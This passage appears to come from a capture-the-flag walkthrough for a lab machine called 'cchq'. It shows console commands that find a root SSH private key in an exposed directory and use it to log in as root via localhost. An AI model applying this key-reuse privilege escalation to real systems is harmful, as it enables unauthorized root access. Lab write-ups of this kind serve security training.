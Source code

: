 ## Content of root
```console
varg@cchq:/opt/CooctFS/root$ ls -la
total 28
drwxr-xr-x 5 root root 4096 Feb 20 09:16 .
drwxr-xr-x 3 root root 4096 Feb 20 09:09 ..
lrwxrwxrwx 1 root root    9 Feb 20 09:15 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Feb 20 09:09 .bashrc
drwx------ 3 root root 4096 Feb 20 09:09 .cache
drwxr-xr-x 3 root root 4096 Feb 20 09:09 .local
-rw-r--r-- 1 root root   43 Feb 20 09:16 root.txt
drwxr-xr-x 2 root root 4096 Feb 20 09:41 .ssh
```

## Reading root.txt
```console
varg@cchq:/opt/CooctFS/root$ cat root.txt 
hmmm...
No flag here. You aren't root yet.
```

## Contents of .ssh
```console
varg@cchq:/opt/CooctFS/root/.ssh$ ls
id_rsa  id_rsa.pub
```
We have a private key. Let us use SSH to login on the box as root using the key.

## Shell as root
```console
varg@cchq:/opt/CooctFS/root/.ssh$ ssh -i id_rsa root@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:7/RM1nMYqyZHC8ICXMcPUC3vIVlZuQab39ZsXs9Q+NI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Apr 16 16:32:30 UTC 2021

  System load:  0.08               Processes:           129
  Usage of /:   35.4% of 18.57GB   Users logged in:     1
  Memory usage: 68%                IP address for eth0: 10.10.67.80
  Swap usage:   0%


0 packages can be updated.
0 of these updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Feb 20 22:22:12 2021 from 172.16.228.162
root@cchq:~# id
uid=0(root) gid=0(root) groups=0(root)

```
